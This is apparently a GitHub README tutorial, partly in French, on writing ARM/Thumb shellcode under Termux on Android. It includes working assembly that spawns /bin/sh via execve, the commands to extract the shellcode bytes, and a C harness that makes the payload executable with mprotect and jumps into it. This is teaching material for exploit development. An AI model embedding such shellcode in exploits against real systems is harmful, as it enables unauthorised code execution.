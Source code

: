 # Shellcode développement 
  shellcode injection 
# Environnement
  ` ~ $> uname -a
Linux 2023 armv8l Android `

  `~ $> Device model:
  RMX3231`

  `~ $> Packages CPU architecture:
  arm `

  `termux-tools/stable 1.39.4 `

# requirements
  ` ~ $> nasm --v
NASM version 2.16.01 compiled on Dec 22 2022`

  ` ~ $> nim --v
Nim Compiler Version 2.0.0 [Android: arm]
Compiled at 2023-08-01
Copyright (c) 2006-2023 by Andreas Rumpf`

  `~ $> ld -v
GNU ld (GNU Binutils) 2.41`

  `~ $> as -v
GNU assembler version 2.41 (arm-linux-androideabi) using BFD version (GNU Binutils) 2.41`

  `~ $> clang/stable 17.0.4 arm `

  `~ $> gcc -v
clang version 16.0.6
Target: armv7a-unknown-linux-android24
Thread model: posix `

# file asm
create a file [shell.s](https://github.com/Dkwebpoint/shellcode/blob/d8a27ade633d2060e7ea94e51a31313262a34ec3/Shell.s)

```
GNU nano 7.2             shell.s
.global _start
.text

_start:
       .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shX"
```

# Compile and execute:

```
~ $> as shell.s -o shell.o
~ $> ld --help
--- snip --
-N, --omagic        Do not page align data, do not make text readonly.
~ $> ld -N shell.o -o shell
```
![ Use ld -N ](https://github.com/Dkwebpoint/shellcode/blob/be42d7cafd5f195efc91ec5d1cd4022ccbb6128e/IMG_20231109_055637.jpg)
# Extract the shellcode
```
~ $> objcopy -O binary shell shell.bin
~ $> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shell.bin               $>\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58
```
![extrct the shellcode](https://github.com/Dkwebpoint/shellcode/blob/702defc0e20912539f6ecb994810f9c96dc78e65/IMG_20231109_143924.jpg)

# Shellcode tester 

create a file [ShellTester.c](https://github.com/Dkwebpoint/shellcode/blob/36c5cbee6fddb6f48329b393e88a74c329c25c82/ShellTester.c)

```
GNU nano 7.2                                                 shelltester.c
/**********************************************************************
*
* Program: shelltester.c
*
* Date: 08/11/2023
*
* Purpose: This code is used to provide a C template to paste shellcode
*          into and be able to run it live from within an ELF binary's
*          char buffer. This allows you to create a buffer with the
*          shellcode globally and this program will mark it as RWX using
*          mprotect() and then finally jump into.
*
* gcc -m32 -z execstack shelltester.c -o shellcodetester
*
***********************************************************************/
#include <stdio.h>
#include <unistd.h>
#include <sys/mman.h>

/////////////////////////////////////////////////////
//  source file: shell.s
/////////////////////////////////////////////////////                                                                                        char payload[] = "\x01\x30\x8f\xe2"
                 "\x13\xff\x2f\xe1"
                 "\x02\xa0"
                 "\x49\x40"                                                                                                                                   "\x52\x40"
                 "\xc2\x71"
                 "\x0b\x27"
                 "\x01\xdf"
                 "\x2f\x62\x69\x6e"
                 "\x2f\x73\x68\x58";

int main() {
    // Print the banner.
    puts("\n\t\033[33;1m---===[ Shellcode Tester Stub v1.0 ]===---\033[0m\n");

    // Print the size of the shellcode.                                                                                                          printf(" [\033[34;1m*\033[0m] Shellcode Size:  %d\n", sizeof(payload)-1);

    // Create a function pointer to the shellcode and
    // display it to the user.
    void (*shell)();
        shell=(void (*)())payload;

    printf(" [\033[34;1m*\033[0m] Shellcode Address: %p\n", shell);

    // Calculate the address to the start of the page for the
    // the shellcode.
    void *page_offset = (void *)((int)shell & ~(getpagesize()-1));
    printf(" [\033[34;1m*\033[0m] Shellcode page: %p\n", &page_offset);

    // Use mprotect to mark that page as RWX.
    mprotect(page_offset, 4096, PROT_READ|PROT_WRITE|PROT_EXEC);

    // Finally, use our function pointer to jump into our payload.
    puts("\n\033[33;1m---------[ Begin Shellcode Execution ]---------\033[0m");
    (*shell)();

    // We likely won't get here, but might as well include it just in case.
    puts("\033[33;1m---------[  End Shellcode Execution  ]---------\033[0m");
    return 0;
}
```
# Compile and test the shellcode 

```
~ $> gcc -o shelltester -z execstack ShellTester.c

~ $> ./shelltester

```


